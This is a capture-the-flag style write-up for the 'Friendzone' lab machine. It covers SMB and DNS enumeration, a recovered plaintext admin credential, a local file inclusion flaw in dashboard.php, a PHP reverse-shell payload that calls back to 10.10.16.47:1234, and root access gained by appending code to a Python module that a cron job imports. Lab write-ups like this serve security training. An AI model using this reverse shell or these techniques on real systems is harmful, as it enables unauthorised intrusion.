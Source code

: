 # FRIENDZONE
### Info:
OS: Linux <br>
IP: 10.10.10.123<br>
Difficulty : Medium+ <br>
### Enumeration:
```
nmap -sC -sV -oA nmap 10.10.10.123
``` 
gives us the results : <br>
![alt text](https://i.imgur.com/eCYWqHv.png)
We start wih smb and check the shares: <br>
![alt text](https://i.imgur.com/254TNJJ.png) <br>
Via anonymous login on general and development we find a creds.txt
![alt text](https://i.imgur.com/ZchC8WR.png) <br>
Where we get creds for admin (used to login later)
```
root@kali:~/Desktop/boxes/Friendzone# cat creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```
Via port 53 we find:
![alt text](https://i.imgur.com/IZRLbzj.png)
### Exploitation:
Adding the domains from the port 53 in our `/etc/hosts` we can view the pages on port 443(https) <br>
We find a dashboard which needs login, and we use the creds found earlier and we reach `dashboard.php` <br>
Now adding our php rev shellcode in `Development` share via `smbclient`
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.47/1234 0<&1'");
?>
```
and executing it via : <br>
![alt text](https://i.imgur.com/FFWB5iH.png) <br>
There is no .php added because we found 
```
GET /dashboard.php?image_id=b.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard
```
and it shows us in dashboard.php :
```
echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
```
that it is self including .php with our param. <br>
Finally we get /var/www on listening some port 1234.
Now in the same folder we find :
![alt text](https://i.imgur.com/HoGLTmi.png)
<br> Now we can ssh into the user `friend` 
### Privilege Escalation:
Running LinENum.sh shows us that there a cronjob running.
![alt text](https://i.imgur.com/4PT2o8B.png) <br>
It imports os and checking os.py : <br>
![alt text](https://i.imgur.com/t4O00M4.png) <br>
Now we can add our shellcode at the end os os.py and wait for the cron job to execute and get the root!
![alt text](https://i.imgur.com/F6hOpSk.png)
### Gained knowledge: <br>
Smb shares <br>
DNS enumeration via dig <br>
Crons
